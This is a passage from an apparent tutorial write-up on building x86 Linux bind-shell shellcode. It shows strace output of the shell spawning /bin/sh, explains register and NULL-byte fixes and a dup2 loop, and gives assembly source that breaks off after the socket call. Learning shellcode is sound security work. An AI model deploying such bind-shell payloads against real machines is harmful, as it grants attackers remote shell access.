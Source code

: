```
 ```
 root@kali:~/Documents/bindshell/bindshellsecond_bind_shell# strace ./second_bind_shell 
execve("./second_bind_shell", ["./second_bind_shell"], 0xbfe76800 /* 41 vars */) = 0
socket(AF_INET, SOCK_STREAM, IPPROTO_IP) = 3
bind(3, {sa_family=AF_INET, sin_port=htons(9001), sin_addr=inet_addr("1.0.0.0")}, 16) = -1 EADDRNOTAVAIL (Cannot assign requested address)
syscall_0xffff016b(0x3, 0, 0x10, 0, 0x3, 0) = -1 ENOSYS (Function not implemented)
syscall_0xffff016c(0x3, 0, 0, 0, 0x3, 0) = -1 ENOSYS (Function not implemented)
syscall_0xffffff3f(0xffffffda, 0x2, 0, 0, 0xffffffda, 0) = -1 ENOSYS (Function not implemented)
syscall_0xffffff3f(0xffffffda, 0x1, 0, 0, 0xffffffda, 0) = -1 ENOSYS (Function not implemented)
syscall_0xffffff3f(0xffffffda, 0, 0, 0, 0xffffffda, 0) = -1 ENOSYS (Function not implemented)
execve("//bin/sh", [], 0xbf992980 /* 0 vars */) = 0
```

For example, we can see that our hex value used for a system call (0x016c) exists, however the actual value it is attempting to call is 0xffff016b. This is because we only wrote to the lower half of the register using al, leaving anything already in the higher half of the register. After noticing this, I returned to XOR'ing most of the registers before moving values into them. Especially if I was targetting the lower half (al), to ensure the rest of the memory was zeroed.

* removed the 3 separate dup2 chunks and instead added a decrementing loop, using the value of the counter as the 2nd parameter value in ECX. Each iteration would decrement the ECX value down to 0 and check the current value before continuing the loop. If our value was not 0, we would jump back to the beginning of the loop and repeat our previous steps. If our value was 0, we have succesfully called dup2 three seperate times with the 2, 1 and 0 values in the 2nd parameter (ECX) and can safely exit the loop.
* when using a register to move values into them, use the lower half of the register only
    * For example, EAX becomes AL or AX (depending on the size of the value), EBX becomes BL, and so on. Ultimately, this was done to prevent any NULL bytes (\x00) from existing in my final payload.

The total source of our second bind shell attempt can be seen here:

```
global	_start
section .text

_start:
	xor eax, eax
	xor ebx, ebx
	xor ecx, ecx
	xor edx, edx

	; SOCKET SYSCALL
	; socket is the first syscall we want with syscall number is 359 (0x167)
	; EAX = syscall number, ebx = param 1 (2), ecx = param 2 (1), edx = param 3 (0)
	mov ax, 0x167
	mov bl, 0x2
	mov cl, 0x1
	; we don't do anything with edx as 0 already exists from the xor above

	int 0x80 ; this interrupt signal handles the syscall
	mov edi, eax ; store the return value in edi for future ref
